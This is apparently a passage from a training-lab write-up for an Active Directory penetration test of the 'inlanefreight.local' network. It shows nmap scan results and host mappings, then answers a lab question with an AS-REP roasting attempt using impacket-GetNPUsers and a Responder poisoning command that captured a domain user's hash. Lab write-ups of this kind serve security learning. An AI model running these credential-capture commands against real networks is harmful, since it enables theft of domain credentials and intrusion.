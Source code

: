 ```
|   date: 2023-07-06T09:03:05
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   2.70 ms 172.16.7.60

Nmap scan report for 172.16.7.240
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 97:cc:9f:d0:a3:84:da:d1:a2:01:58:a1:f2:71:37:e5 (RSA)
|   256 03:15:a9:1c:84:26:87:b7:5f:8d:72:73:9f:96:e0:f2 (ECDSA)
|_  256 55:c9:4a:d2:63:8b:5f:f2:ed:7b:4e:38:e1:c9:f5:71 (ED25519)
3389/tcp open  ms-wbt-server xrdp

Uptime guess: 18.603 days (since Sat Jun 17 14:35:03 2023)
Network Distance: 0 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Post-scan script results:
| clock-skew: 
|   0s: 
|     172.16.7.3 (inlanefreight.local)
|     172.16.7.50
|_    172.16.7.60
```

According to nmap scan we know that

* 172.16.7.3 -> DC01.INLANEFREIGHT.LOCAL
* 172.16.7.50 -> MS01.INLANEFREIGHT.LOCAL
* 172.16.7.60 -> SQL01.INLANEFREIGHT.LOCAL
* 172.16.7.240 -> Our parrot machine

List of valid users



**Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain. What is the account name?**

* Tried ASREP-ROASTING -> didn't work
  * impacket-GetNPUsers -format hashcat -usersfile valid\_users.txt -dc-ip 172.16.7.3 inlanefreight.local/
* Tried responder got user INLANEFREIGHT\AB920
  *   ```
      sudo responder -I ens224 -wrfv
      ```

